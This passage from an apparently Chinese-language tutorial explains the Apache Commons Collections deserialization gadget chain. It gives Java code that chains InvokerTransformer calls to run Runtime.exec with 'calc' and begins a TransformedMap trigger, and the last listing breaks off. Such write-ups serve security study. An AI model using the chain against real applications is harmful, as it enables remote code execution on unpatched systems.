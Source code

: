 `InvokerTransformer`构造方法有三个参数，分别为 方法名称、方法类型数组、方法参数数组，方法名称不用多说，其中第二个方法类型数组和第三个方法参数数组 的长度必须要相等。

`InvokerTransformer`的`transform`方法就是将输入的对象按照构造方法传入的参数转换为另一个对象，没有任何限制，因此即使程序内部没有`Runtime.getRuntime().exec("cmd")`这行代码，也通过`InvokerTransformer`来可实现调用。

尽管程序内部没有`Runtime.getRuntime().exec("calc")`这行代码，但是开发人员肯定也不会把上面那一大块代码写到程序里面，因此我们还需要另想办法。首先我们先把代码简化一下，修改为链式调用。

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class Exp1 {

    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[2]),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        // 把 Transformer 使用链的方式调用，从上到下，不用再每次执行
        Transformer transformerChain = ChainedTransformer.getInstance(transformers);
        // 调用转换
        transformerChain.transform(null);
    }
}
123456789101112131415161718192021
```

这样我们只需要调用一次`transform`就行了，但是想让目标系统执行我们的代码还是不可能的，因此还需要再寻求其他方式。
 有安全人员发现，`commons-collections`自己实现了`Map.Entry`，并且在`setValue`的时候会先调用`TransformedMap`的 `checkSetValue`方法，而这个方法又调用了我们传入的`valueTransformer`的`transform`方法，这样一套流程下来，当我们对经过`TransformedMap`转换出来的`Map`做`put`操作的时候，都会触发执行一次我们构造的任意指令。

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class Exp2 {

    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[2]),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        // 把 Transformer 使用链的方式调用，从上到下，不用再每次执行
        Transformer transformerChain = ChainedTransformer.getInstance(transformers);

        // 利用 TransformedMap 的漏洞来执行 transform 方法
```